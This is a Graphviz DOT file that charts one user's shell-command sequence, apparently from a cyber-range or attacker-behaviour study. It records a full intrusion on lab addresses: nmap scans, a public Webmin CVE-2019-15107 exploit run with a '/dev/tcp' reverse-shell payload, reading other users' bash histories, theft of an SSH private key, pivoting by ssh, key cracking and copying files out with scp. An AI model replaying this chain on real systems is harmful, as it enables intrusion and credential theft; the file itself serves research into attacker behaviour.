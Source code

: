 // creating graph for user: 66
digraph {
	node [shape=box]
	0 [label="ifconfig U"]
	1 [label="nmao U"]
	2 [label="nmap A0 A1 "]
	3 [label="nmap A0 A1 "]
	4 [label="ifconfig U"]
	5 [label="nmap -h A0 A1 "]
	6 [label="curl U"]
	7 [label="ifconfig U"]
	8 [label="git clone github.com/jas502n/CVE-2019-15107 U"]
	9 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	10 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	11 [label="ls A10 "]
	12 [label="ls -la A10 "]
	13 [label="drwx------  3 root root  4096 Apr  7 11:39 .gnupg U"]
	14 [label="drwxr-xr-x  3 root root  4096 Jul 15 09:27 .local U"]
	15 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Music U"]
	16 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Pictures U"]
	17 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	18 [label="cd U"]
	19 [label="ls A10 "]
	20 [label="cd CVE-2019-15107/ U"]
	21 [label="ls A10 "]
	22 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	23 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	24 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	25 [label="sudo apt install ncat A1 A9 A11 A12 A17 "]
	26 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	27 [label="ncat -i 8080 A1 A9 A11 A12 A17 "]
	28 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'id' A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat ./.bash_history' M11 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/eva/.bash_history' A1 A9 A12 A13 A17 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/bob/.bash_history' A1 A9 A12 A13 A17 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/debian/.bash_history' A1 A9 A12 A13 A17 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls home/debian/' A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian/' A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la' A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls' A10 A13 "]
	39 [label="module.info.pt_BR.UTF-8 U"]
	40 [label="module.info.ru.UTF-8 U"]
	41 [label="module.info.ru_RU U"]
	42 [label="module.info.ru_RU.UTF-8 U"]
	43 [label="module.info.ru_SU U"]
	44 [label="module.info.sk U"]
	45 [label="module.info.sk.UTF-8 U"]
	46 [label="module.info.sv U"]
	47 [label="module.info.sv.UTF-8 U"]
	48 [label="module.info.tr U"]
	49 [label="module.info.zh_CN U"]
	50 [label="module.info.zh_TW.Big5 U"]
	51 [label="negativeacl U"]
	52 [label="openssl.cnf U"]
	53 [label="postinstall.pl U"]
	54 [label="save_acl.cgi U"]
	55 [label="save_group.cgi U"]
	56 [label="save_pass.cgi U"]
	57 [label="save_sql.cgi U"]
	58 [label="save_sync.cgi U"]
	59 [label="save_twofactor.cgi U"]
	60 [label="save_unix.cgi U"]
	61 [label="save_user.cgi A4 "]
	62 [label="schema.cgi U"]
	63 [label="switch.cgi U"]
	64 [label="system_info.pl U"]
	65 [label="twofactor.pl U"]
	66 [label="twofactor_form.cgi U"]
	67 [label="useradmin_update.pl A4 "]
	68 [label="webmin.schema U"]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls -la' A10 A13 "]
	70 [label="rwxr-xr-x   6 root bin 12288 Jul  4  2019 . U"]
	71 [label="drwxr-xr-x 132 root bin 12288 Jul  4  2019 .. U"]
	72 [label="drwxr-xr-x   3 root bin  4096 Jul  4  2019 Authen-SolarisRBAC-0.1 U"]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd / ; ls -la' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alice' A10 A13 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/alice' A10 A13 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/debian' A10 A13 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' M10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' A1 A9 A12 A13 A17 "]
	80 [label="ervices U"]
	81 [label="echo '81.2.195.254' >> ~/top-secret/too_dangerous.txt U"]
	82 [label="2.195.254 U"]
	83 [label="cat /etc/services M1 "]
	84 [label="less /etc/services A9 A12 A17 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/bob/.bash_history' A9 A12 A13 A17 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' A9 A12 A13 A17 "]
	88 [label="ssh 10.1.18.22 A16 "]
	89 [label="ssh 10.1.17.4 A16 "]
	90 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ssh eve@10.1.17.4' M16 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A9 A12 A13 A17 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' A13 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A9 A12 A13 A17 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' A9 A12 A13 A17 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' A13 "]
	96 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' A13 "]
	98 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve/.ssh/' A13 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	100 [label="touch id_rsa U"]
	101 [label="nano id_rsa U"]
	102 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' A9 A13 A17 "]
	103 [label="touch id_rsa.pub U"]
	104 [label="nano id_rsa.pub U"]
	105 [label="ssh eve@10.1.17.4 U"]
	106 [label="cd .. U"]
	107 [label="ls U"]
	108 [label="cd .ssh U"]
	109 [label="ls U"]
	110 [label="ls -la U"]
	111 [label="chmod 600 id_rsa M15 "]
	112 [label="ls -la U"]
	113 [label="ssh eve@10.1.17.4 U"]
	114 [label="gpg2john id_rsa A14 "]
	115 [label="scp -r * eve@10.1.17.4:/home/eve/ U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}
